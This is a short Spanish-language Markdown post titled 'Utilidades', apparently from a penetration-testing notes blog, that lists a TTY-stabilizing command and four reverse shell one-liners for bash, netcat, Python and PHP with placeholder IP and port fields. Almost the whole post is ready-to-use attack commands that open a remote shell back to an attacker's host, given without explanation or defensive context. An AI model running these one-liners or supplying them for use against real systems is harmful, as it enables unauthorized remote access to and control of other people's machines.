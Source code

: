 ```yaml
---
title: Utilidades
date: 2024-10-03
description: Post con recursos generales.
categories:
    - Utilities
tags:
    - Utilities
media_subpath: /assets/img/commons/Utilities/
# image:
---
```


## Tratamiento de la tty

```bash
stty raw -echo; fg
```

## Reverse Shell Linux

```bash
bash -i >& /dev/tcp/{IP}/{PUERTO} 0>&1
```

## Reverse Shell Netcat

```bash
nc -e /bin/sh {IP} {PUERTO}
```

## Reverse Shell Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP}",{PUERTO}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Reverse Shell PHP

```bash
php -r '$sock=fsockopen("{IP}",{PUERTO});exec("/bin/sh -i <&3 >&3 2>&3");'
```
